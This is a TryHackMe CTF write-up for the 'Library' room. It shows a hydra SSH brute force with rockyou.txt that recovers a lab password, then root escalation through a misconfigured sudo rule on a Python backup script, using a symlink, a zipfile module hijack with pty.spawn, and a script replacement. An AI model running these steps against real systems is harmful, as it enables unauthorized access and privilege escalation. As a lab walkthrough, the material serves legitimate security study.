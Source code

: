 ```yaml
---
title: Library
description: 'Brute forcing SSH access and escalating using a poorly configured sudo rule'
pubDate: 2024-12-27
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/484c37bcb5b90fac35d15f0c5ccdaed6.jpeg'
---
```


From the website we get a username `meliodas` and checking the `robots.txt` we see it contains a reference to `rockyou`.txt probably.

## USER

Lets try to brute force SSH with that username (`meliodas`) and `rockyou.txt`.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.203.120 ssh -t 4
...[snip]...
[STATUS] 104.00 tries/min, 104 tries in 00:01h, 14344295 to do in 2298:46h, 4 active
[22][ssh] host: 10.10.203.120   login: meliodas   password: iloveyou1
...[snip]...
```

We can SSH in to the machine with these credentials:

```bash
ssh meliodas@10.10.203.120 # <-- iloveyou1
```

## ROOT

Checking for sudo privileges we see an interestings python script.

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
...[snip]...

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Looking at the script we see that it makes a backup of the website and creates a zip (`/var/backups/website.zip`).

We have write access to the website directory so we can create a symlink to any file in there. Run the backup and extract it to a location we have access to, and read the symlinked file:

```bash
ln -s /root/root.txt moo
sudo /usr/bin/python3 /home/meliodas/bak.py
cp /var/backups/website.zip /tmp/
cd /tmp
unzip website.zip
cd /tmp/var/www/html/Blog
cat moo
```
And we get the root flag.

An other way is to create our own 'zipfile' python file.

Lets create a `zipfile.py`.

```python
import pty

pty.spawn('bash')
```

Execute the script with `sudo`:

```bash
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And we get a root shell.

Yet another way is to just remove the `bak.py` file completely and create a new `bak.py` file with our own code.

Remove the old `bak.py` file which is owned by `root`:

```bash
rm bak.py
rm: remove write-protected regular file 'bak.py'? y
```

Our new `bak.py`:

```python
import pty

pty.spawn('bash')
```

Run the script with sudo:

```bash
sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
